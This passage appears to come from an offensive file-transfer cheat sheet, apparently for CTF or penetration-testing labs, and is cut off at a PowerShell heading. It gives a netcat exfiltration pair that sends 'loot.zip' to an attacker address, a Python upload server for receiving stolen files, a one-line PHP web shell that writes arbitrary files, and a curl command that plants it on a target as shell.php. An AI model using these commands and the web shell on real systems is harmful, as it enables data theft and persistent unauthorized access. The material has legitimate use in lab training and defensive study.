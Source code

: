 #### 🔹 Netcat Exfil

**Receiver:**

```bash
nc -lvnp 9000 > loot.zip
```

**Sender:**

```bash
cat loot.zip | nc 10.10.14.2 9000
```

***

### VI. 🧰 Python File Transfer Mini-Server (Dual Mode)

```python
#!/usr/bin/env python3
from http.server import SimpleHTTPRequestHandler, HTTPServer
import cgi

class Handler(SimpleHTTPRequestHandler):
    def do_POST(self):
        ctype, pdict = cgi.parse_header(self.headers['content-type'])
        if ctype == 'multipart/form-data':
            fs = cgi.FieldStorage(fp=self.rfile, headers=self.headers, environ={'REQUEST_METHOD':'POST'})
            with open(fs['file'].filename, 'wb') as f: f.write(fs['file'].file.read())
        self.send_response(200); self.end_headers(); self.wfile.write(b'OK')

HTTPServer(('0.0.0.0',8000), Handler).serve_forever()
```

***

### VII. 🧠 File Transfer via Web Shells (CTF Use)

#### 🔹 PHP Upload

```php
<?php echo file_put_contents($_GET['f'], file_get_contents("php://input")); ?>
```

Upload a file:

```bash
curl -X POST --data-binary @tool.php "http://target/upload.php?f=shell.php"
```

***

### VIII. ⚙️ Windows → Linux Exfil (Command Line)

#### 🔹 PowerShell Upload
